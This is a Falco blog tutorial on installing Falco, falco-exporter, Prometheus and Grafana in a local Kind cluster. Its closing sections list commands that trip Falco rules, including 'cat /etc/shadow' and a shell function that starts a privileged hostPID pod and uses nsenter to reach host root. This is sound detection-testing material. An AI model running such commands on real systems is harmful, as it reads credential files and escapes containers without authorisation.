 ```yaml
---
title: Falco on Kind with Prometheus and Grafana
date: 2020-03-19
author: Leonardo Grasso
slug: falco-kind-prometheus-grafana
---
```


Kind is a tool for running local Kubernetes clusters using Docker container "nodes", that may be used for local development or CI. It also offers a convenient and easy way to install Falco in a Kubernetes cluster and play with it locally. We will use Kind to show how to export Falco metrics to Prometheus and Grafana.

## Create a Kind cluster
Running Falco in a Kind cluster is easy, as explained in the [documentation](https://falco.org/docs/getting-started/running/#running-falco-in-a-kind-cluster). 

If you want to use the kernel module, basically, you only have to mount `/dev`.

Note that it's not mandatory to mount the entire `/dev` path. Falco just needs access to some devices created by the kernel module:

```
$ ls -l /dev/falco*
cr-------- 1 root root 238, 0 Mar 12 16:04 /dev/falco0
cr-------- 1 root root 238, 1 Mar 12 16:04 /dev/falco1
cr-------- 1 root root 238, 2 Mar 12 16:04 /dev/falco2
cr-------- 1 root root 238, 3 Mar 12 16:04 /dev/falco3
cr-------- 1 root root 238, 4 Mar 12 16:04 /dev/falco4
cr-------- 1 root root 238, 5 Mar 12 16:04 /dev/falco5
cr-------- 1 root root 238, 6 Mar 12 16:04 /dev/falco6
cr-------- 1 root root 238, 7 Mar 12 16:04 /dev/falco7
```
As you can see, the kernel module is creating one device per CPU (8 in my case). These paths are all Falco needs.

## Certificates
To export metrics to Prometheus, we will use [falco-expoter](https://github.com/falcosecurity/falco-exporter) which connects to the [Falco gRPC output](https://falco.org/docs/grpc/). The Falco gRPC server works only with mutual TLS by design. Therefore, you also need valid certificate files to configure Falco and falco-exporter properly.

You can quickly generate cert materials using [falcoctl](https://github.com/falcosecurity/falcoctl): 
```
FALCOCTL_NAME=falco-grpc.default.svc.cluster.local FALCOCTL_PATH=/tmp/certs falcoctl install tls 
```
Otherwise you can manually generate them as explained [here](https://falco.org/docs/grpc/grpc-config/#certificates).

Note that in both cases, you have to make sure to set the correct CommonName. In this example, we are using the default hostname used by the Helm chart.

## Install Falco
The official [Falco Helm Chart](https://github.com/falcosecurity/charts/tree/master/falco) is a straightforward way to deploy Falco. The chart adds Falco to all nodes in your cluster using a DaemonSet.

Enable the Falco charts repository:

```
helm repo add falcosecurity https://falcosecurity.github.io/charts
helm repo update
```

Be sure to include TLS cert material and enable the gRPC output:
```
helm install falco falcosecurity/falco \
    --set-file certs.server.key=/tmp/certs/server.key,certs.server.crt=/tmp/certs/server.crt,certs.ca.crt=/tmp/certs/ca.crt \
    --set falco.grpc.enabled=true,falco.grpcOutput.enabled=true
```

## Install falco-exporter
[falco-exporter](https://github.com/falcosecurity/falco-exporter) is the Prometheus metrics exporter for Falco output events. Again here, using [the provided Helm chart](https://github.com/falcosecurity/charts/tree/master/falco-exporter) is the easiest way to deploy it.

So you only have to run the helm install command:

```
helm install falco-exporter \ 
    --set-file certs.ca.crt=/tmp/certs/ca.crt,certs.client.key=/tmp/certs/client.key,certs.client.crt=/tmp/certs/client.crt \
    falcosecurity/falco-exporter 
```

## Install Prometheus

Once Falco and the exporter are up and running, we can proceed by installing Prometheus:
```
helm install prom stable/prometheus
```

Then we have to wait for Prometheus to set up and run:
```
export POD_NAME=$(kubectl get pods --namespace default -l "app=prometheus,component=server" -o jsonpath="{.items[0].metadata.name}")
kubectl --namespace default port-forward $POD_NAME 9090
```
So we can open [http://localhost:9090/targets](http://localhost:9090/targets) and check that falco-exporter has been discovered by Prometheus.


## Install Grafana and the Falco dashboard

To deploy Grafana, just run:
```
helm install grafana stable/grafana
```
Then get your 'admin' user password by running:
```
kubectl get secret --namespace default grafana -o jsonpath="{.data.admin-password}" | base64 --decode ; echo
```
When Grafana is up and running, port forward the Grafana service:
```
kubectl port-forward service/grafana 3000:80
```
To log in to Grafana, open [http://127.0.0.1:3000/login](http://127.0.0.1:3000/login) and use the 'admin' user password you got above.

Now you can add the Prometheus endpoint (`http://prom-prometheus-server.default.svc.cluster.local`) to the Grafana data sources and finally go to [http://127.0.0.1:3000/dashboard/import](http://127.0.0.1:3000/dashboard/import) and import the Falco dashboard  by copy-paste the following dashboard URL:
```
https://grafana.com/grafana/dashboards/11914
```
Otherwise, you can use the provided [dashboard.json](https://github.com/falcosecurity/falco-exporter/blob/master/grafana/dashboard.json).

![Falco dashboard](https://github.com/falcosecurity/falco-exporter/raw/master/grafana/preview.png)

Now we can generate events to see the system in action!

## Generate events 

There are many ways to demonstrate a Falco rule has been violated, and if you have loaded the default Falco ruleset here are some fun things to try.

A simple one line example is to create an alert is to `touch` a file in a well known executable directory. Also, you can `cat` or `touch` files in other potentially vulnerable directories as well.

### Common one-liners

```bash
touch /usr/local/bin/example-violation
touch /usr/bin/example-violation
cat /etc/shadow
touch /etc/example-violation
```

You can find the default ruleset [here](https://github.com/falcosecurity/falco/blob/master/rules/falco_rules.yaml). 

## Fun with privileged mode 

You can see the demo that [Kris Nóva gave at FOSDEM](https://www.youtube.com/watch?v=VrtkKgfJ3RI) and find the function `shell()` that she used defined below.


```bash
function shell () {
  kubectl run shell --restart=Never -it --image krisnova/hack:latest \
  --rm --attach \
  --overrides \
        '{
          "spec":{
            "hostPID": true,
            "containers":[{
              "name":"scary",
              "image": "krisnova/hack:latest",
	      "imagePullPolicy": "Always",
              "stdin": true,
              "tty": true,
              "command":["/bin/bash"],
	      "nodeSelector":{
		"dedicated":"master" 
	      },
              "securityContext":{
                "privileged":true
              }
            }]
          }
        }'
}
```

You can paste this into a new file `shell.sh` and source the file.

```bash
source shell.sh
```

Then you can type the following to demonstrate a privilege escalation in Kubernetes.

```
[user@user]$ shell
If you don't see a command prompt, try pressing enter.
root@shell:/# nsenter -t 1 -m -u -i -n bash
root@ip-1-2-3-4:/# 
```

Doing this takes advantage of a well known security exploit in Kubernetes, and you can find the Falco alerts rendered in Prometheus/Grafana. 


## Falco events generator 

You can find more information on generating sample events in [the official documentation](https://falco.org/docs/event-sources/sample-events/)

For a quick example, you can run the following command to begin generating events

```bash
docker run -it --rm falcosecurity/event-generator run syscall --loop
```
